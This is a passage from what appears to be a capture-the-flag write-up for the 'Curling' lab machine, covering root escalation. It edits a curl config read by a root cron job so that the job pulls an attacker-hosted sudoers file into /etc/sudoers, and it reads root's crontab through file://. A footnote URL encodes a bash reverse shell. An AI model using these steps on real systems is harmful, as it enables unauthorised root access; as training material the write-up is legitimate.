 Modify input:

```bash
url = "10.10.17.201/sudoers"
output = "/etc/sudoers"
user-agent = "superagent/1.0"
```

Serve sudoers:

	sudo python -m SimpleHTTPServer 80

```bash
Serving HTTP on 0.0.0.0 port 80 ...
10.129.79.91 - - [10/Jul/2021 16:23:01] "GET /sudoers HTTP/1.1" 200 -
 3
```

	sudo su -
	root@curling:~#

#### Get root using crontabs

	echo 'url = "file:///var/spool/cron/crontabs/root"' > input 
	watch -n 1 cat report

```bash
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.1F3WTb/crontab installed on Tue May 22 19:02:51 2018)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
* * * * * curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
* * * * * sleep 1; cat /root/default.txt > /home/floris/admin-area/input
```


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency